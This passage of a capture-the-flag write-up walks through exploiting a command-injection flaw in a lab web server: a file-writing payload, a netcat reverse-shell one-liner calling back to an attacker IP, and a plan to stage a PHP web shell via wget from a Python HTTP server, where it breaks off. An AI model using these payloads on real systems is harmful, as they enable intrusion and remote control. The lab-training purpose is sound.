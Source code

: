 ![[Pasted image 20211121224508.png]]

This verifies code execution.

### File Writing

We can test code execution further by trying to write to a file accessible by the webserver. Most servers on Linux are hosted within the `/var/www/html` directory by default, so let's try to write a file there - if it works, we should be able to view it in browser.

Submitting this payload to the input box should take the output of the `which nc` command and redirect it to a file `hello.html` on the server:

```
`echo $(which nc) > /var/www/html/hello.html`
```

Sure enough, the file contains the output of the command:

![[Pasted image 20211121224706.png]]

This verifies that `netcat` is installed on the target machine. We can try a couple more reverse shell payloads - remember to check [revshells.com](https://revshells.com) to look for new ones.

This reverse shell command is often reliable:

```
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.113.99 413 >/tmp/f`
```

In this case we get a shell, but it is closed instantly:

![[Pasted image 20211121225027.png]]

Other reverse shell commands give no response. It's time to change our strategy.

### Staged Payload

We'll use our file writing strategy to write a web shell to the server and execute it. Luckily Kali Linux has some prewritten webshells installed.

We can figure out the site uses PHP by looking at the site headers. The file `/usr/share/webshells/php/php-reverse-shell.php` contains a great reverse shell written in PHP. We just have to edit some values:

![[Pasted image 20211121225454.png]]

We have to add our IP address (find this with `ip a` or `ifconfig [INTERFACE]`) and our listening port (in our case, `413`).

We can then start a Python HTTP server in the directory where the webserver is stored. This allows the target machine to make requests to our machine, which is serving the reverse shell file. If we use the command injection to run `wget`, we can write the webshell to the file system.

Start a Python webserver with the following command:

```bash
$ python3 -m http.server [PORT]
```
